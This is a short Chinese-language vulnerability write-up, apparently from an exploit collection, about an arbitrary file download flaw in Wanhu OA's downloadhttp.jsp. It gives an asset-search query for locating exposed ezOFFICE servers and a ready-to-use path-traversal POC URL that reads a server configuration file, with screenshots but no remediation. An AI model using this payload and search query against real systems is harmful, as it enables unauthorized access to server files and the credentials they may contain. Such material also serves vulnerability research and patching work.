 # 万户OA downloadhttp.jsp 任意文件下载漏洞

# 万户OA downloadhttp.jsp 任意文件下载漏洞

## 漏洞描述

万户OA downloadhttp.jsp文件存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器上的任意文件

## 漏洞影响

```
万户OA
```

## 网络测绘

```
app="万户网络-ezOFFICE"
```

## 漏洞复现

产品页面

![image-20220520132806210](/images/202205201328307.png)

验证POC

```
/defaultroot/site/templatemanager/downloadhttp.jsp?fileName=../public/edit/jsp/config.jsp
```

![image-20220520132818308](/images/202205201328396.png)

